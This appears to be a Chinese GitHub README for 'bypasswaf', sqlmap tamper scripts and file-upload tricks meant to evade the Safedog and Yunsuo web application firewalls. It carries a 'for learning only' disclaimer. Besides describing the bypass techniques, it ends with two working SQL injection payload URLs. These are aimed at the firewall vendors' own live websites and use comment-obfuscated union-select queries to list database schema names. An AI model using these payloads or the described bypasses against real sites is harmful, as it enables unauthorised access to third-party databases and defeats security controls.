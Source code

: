 # bypasswaf

仅供学习 请勿用作非法用途<br>

2.0：<br>
增加优化了部分规则 现在bypass云锁tamper及bypass安全狗tamper支持所有的注入类型了！<br>
更新了bypass 安全狗 任意文件上传的方法（适用于业务系统存在任意文件上传漏洞但是服务器安装了安全狗环境）<br>
更新了bypass 安全狗 SQL注入tamper，现在支持所有类型的注入了<br>

## 针对最新版云锁和安全狗的sqlmap自动化绕过脚本<br>

包含：<br>
bypass安全狗sql注入tamper <br>
bypass云锁SQL注入tamper （可0警告绕过云锁）<br>
理论上来说规则越多速度也会越慢 所以不追求隐蔽性的可以按需求修改规则<br>

## 针对最新版安全狗的任意文件上传bypass<br>
safedog_upload_yichu.txt<br>
![Image text](https://github.com/pureqh/bypasswaf/blob/master/yichu.png?raw=true)
safedog_upload_huanhang.txt<br>
![Image text](https://github.com/pureqh/bypasswaf/blob/master/huanhang.jpg?raw=true)


## 利用知识点：<br>
安全狗：内联注释<br>
blog:https://pureqh.top/?p=1882<br>
~~云锁：引号包裹注释符绕过检测~~<br>
~~blog:https://pureqh.top/?p=4175~~<br>
云锁：多行注释符嵌入#绕过检测<br>
blog:https://pureqh.top/?p=4414<br>
文件上传：Content-Disposition参数溢出、文件名换行绕过<br>
blog:https://pureqh.top/?p=1225<br>

## 注：bypass云锁官网  
http://help.yunsuo.com.cn/guide/install/?id=1' REGEXP \"[…%252523]\" union select 1,group_concat(schema_name),3 from information_schema.schemata -- +<br>
## 注：bypass安全狗官网
https://www.safedog.cn/news.html?id=4046' "/\*" /\*!11444union all select 1,(select group_concat(schema_name) from information_schema.schemata) ,3 */ --+  
